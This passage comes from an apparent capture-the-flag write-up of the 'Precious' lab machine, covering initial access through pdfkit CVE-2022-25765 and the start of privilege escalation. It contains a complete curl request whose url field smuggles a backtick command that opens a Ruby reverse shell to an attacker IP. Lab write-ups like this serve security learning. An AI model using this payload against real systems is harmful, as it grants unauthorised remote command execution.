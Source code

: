 Bingo. CVE.

### CVE-2022-25765
A quick Google search details `pdfkit` is vulnerable to [CVE-2022-25765](https://github.com/shamo0/PDFkit-CMD-Injection)

*malicious payload:*
```sh
curl 'http://precious.htb' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://precious.htb' -H 'Connection: keep-alive' -H 'Referer: http://precious.htb' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2F10.10.16.9%3A1337%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.16.9%22%2C1337%29%29%27%60'
```

Shell acquired.

![cve](images/cve.png)

### privesc (ruby -> henry)
As `ruby`, I was unable to read `user.txt`. So I began looking at ways to privesc. First file I found that was useful was `Gemfile.lock`.

*file: Gemfile.lock*
```sh
GEM
  remote: http://rubygems.org/
  specs:
    mustermann (3.0.0)
      ruby2_keywords (~> 0.0.1)
    pdfkit (0.8.6)
    rack (2.2.4)
    rack-protection (3.0.0)
      rack
    require_all (3.0.0)
    ruby2_keywords (0.0.5)
    sinatra (3.0.0)
      mustermann (~> 3.0)
      rack (~> 2.2, >= 2.2.4)
      rack-protection (= 3.0.0)
      tilt (~> 2.0)
    tilt (2.0.11)

PLATFORMS
  x86_64-linux

DEPENDENCIES
```